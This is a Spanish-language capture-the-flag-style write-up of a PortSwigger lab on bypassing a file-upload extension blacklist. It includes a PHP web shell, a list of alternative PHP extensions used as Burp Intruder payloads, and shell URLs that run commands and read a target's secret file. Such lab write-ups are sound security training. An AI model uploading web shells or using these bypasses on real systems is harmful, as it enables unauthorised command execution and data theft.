 ```yaml
---
title: File Upload Vulnerabilities Lab 4
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via extension blacklist bypass
image:
  path: /assets/img/File-Upload-Vulnerabilities-Lab-4/Portswigger.png
---
```


## Skills

- Web shell upload via extension blacklist bypass

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser eludida debido a una falla fundamental en la `configuración` de esta `blacklist`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_6.png)

En Hacktricks hay una lista de extensiones que pueden interpretar código php [https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology), nos creamos una lista con estas extensiones

```
# cat extensions.txt 
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.php
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Mandamos la petición al intruder de Burpsuite y seleccionamos la extensión

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_7.png)

Nos vamos a Payloads, pulsamos en Load, cargamos la lista de extensiones, en la parte inferior de esta ventana desmarcamos el `Payload encoding` y pulsamos en Start attack

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_8.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_9.png)

Desde el repeater de Burpsuite he ido mandando los payloads manualmente hasta que he dado con el .phar el cual si me ha interpretado `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=whoami`, he tenido que hacerlo de esta forma porque los archivos subidos se van eliminando

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_10.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_11.png)

Obtenemos el contenido del archivo secret `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_12.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_13.png)
